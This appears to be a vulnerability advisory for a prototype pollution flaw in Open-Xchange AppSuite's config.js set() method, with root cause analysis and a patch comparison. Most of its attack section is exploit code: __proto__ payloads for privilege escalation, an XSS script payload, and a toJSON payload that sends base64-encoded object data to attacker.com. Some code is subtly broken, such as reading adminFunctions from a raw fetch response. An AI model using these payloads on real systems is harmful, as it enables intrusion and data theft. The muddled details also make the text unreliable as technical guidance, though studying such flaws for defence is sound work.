


## Vulnerability Overview  
A vulnerabilities prototype pollution vulnerability exists in Open-Xchange AppSuite's configuration management system, allowing attackers to modify JavaScript object prototypes and compromise application security. This vulnerability enables complete application takeover through prototype chain manipulation.  

**Technical Specifications**  
| Category            | Details                                                                 |  
|---------------------|-------------------------------------------------------------------------|  
| **Component**       | `ui/apps/io.ox/core/config.js`                                         |  
| **Vulnerable Method** | `set()`                                                                |  
| **Line Number**     | L56                                                                     |  
| **CWE Classification** | CWE-1321: Improperly Controlled Modification of Object Prototype Attributes |  

**Security Impact**  
- Remote code execution through prototype manipulation  
- Authentication bypass via prototype pollution  
- Sensitive data exposure  
- Complete application compromise  


## Vulnerability Flow  


---

## Detailed Vulnerability (A/F)  

| Aspect               | Details                                                                 |  
|---------------------|-------------------------------------------------------------------------|  
| Attack Vector        | Malicious configuration input                                         |  
| Complexity          | Medium (Requires understanding of JS prototypes)                      |  
| Privileges Required | None                                                                   |  
| User Interaction     | Required (Configuration submission)                                   |  
| Scope               | Application-wide object modifications                                |  
| Confidentiality      | High (Access to sensitive data)                                       |  
| Integrity           | Critical (Full application control)                                   |  
| Availability        | High (Application crash possible)                                     |  

## Comparative Analysis  

| Feature          | Vulnerable Version                   | Patched Version                     |  
|------------------|--------------------------------------|-------------------------------------|  
| Property Filter  | None                                 | Blocks `__proto__`, `constructor`   |  
| Assignment Depth | Recursive                            | Shallow assignment                  |  
| Validation       | Syntactic only                       | Prototype-aware validation          |  
| Error Handling   | Silent failures                      | Explicit security exceptions        |  

---


## Step-by-Step Technical Flow  
### Exploitation Pathway  
1. **Initial Access**:  
   - Attacker crafts malicious configuration payload  
   ```javascript  
   const maliciousConfig = {  
     "__proto__": {  
       "isAdmin": true,  
       "toString": () => "HACKED"  
     }  
   };  
   ```  

2. **Vulnerable Processing**:  
   ```javascript  
   // Vulnerable set() function  
   set("malicious.path", maliciousConfig);  
   ```  

3. **Prototype Pollution**:  
   - Modifies `Object.prototype`  
   - Affects all JavaScript objects in application  

4. **Privilege Escalation**:  
   ```javascript  
   // Authentication bypass  
   if (user.isAdmin) {  // Now true for all objects!  
     grantAdminAccess();  
   }  
   ```  


## Proof of Concept  
### Vulnerable Code Snippet  
```javascript [citation:search result]  
// Original vulnerable implementation (Line 56)  
set: function (key, value) {  
    var parts = key.split('.'),  
        temp = config,  
        part;  
    while (parts.length > 1) {  
        part = parts.shift();  
        if (!temp[part]) temp[part] = {};  
        temp = temp[part];  
    }  
    temp[parts.shift()] = value;  // VULNERABLE  
}  
```  

### Exploitation Demostration
```javascript  
// Step 1: Trigger prototype pollution  
ox.config.set("__proto__.isAdmin", true);  

// Step 2: Verify pollution  
console.log({}.isAdmin); // true  

// Step 3: Bypass authentication  
function checkAdmin(user) {  
    if (user.isAdmin) {  
        return sensitiveAdminData;  
    }  
}  
// Now returns data for ANY user  
```  

### Browser Console Verification  
```javascript  
// Execute in browser console after exploitation  
fetch('/appsuite/api/login', {  
    method: 'POST',  
    body: JSON.stringify({username: 'attacker', password: 'password'})  
}).then(response => {  
    console.log("Admin access:", response.adminFunctions);  
});  
```  

## Technical Vulnerability  
**Root Cause Analysis**:  
1. **Unfiltered Property Assignment**:  
   ```javascript  
   temp[parts.shift()] = value;  // Assigns directly without validation  
   ```  

2. **Recursive Path Resolution**:  
   ```javascript  
   // Processes paths like "a.b.c.__proto__.polluted"  
   while (parts.length > 1) {  
       part = parts.shift();  
       if (!temp[part]) temp[part] = {};  
       temp = temp[part];  
   }  
   ```  

3. **Prototype Chain Injection**:  
   - Setting `__proto__` property modifies the prototype chain  
   - Affects all objects created after pollution  

## Exploit Chaining  


1. **Authentication Bypass**:  
   ```javascript  
   {  
     "__proto__": {  
       "isAdmin": true,  
       "roles": ["superadmin"]  
     }  
   }  
   ```  

2. **XSS Injection**:  
   ```javascript  
   {  
     "__proto__": {  
       "toString": function() {  
         return "<script>alert(1)</script>";  
       }  
     }  
   }  
   ```  

3. **Data Exfiltration**:  
   ```javascript  
   {  
     "__proto__": {  
       "toJSON": function() {  
         fetch('https://attacker.com?data=' + btoa(JSON.stringify(this)));  
       }  
     }  
   }  
   ```  

---

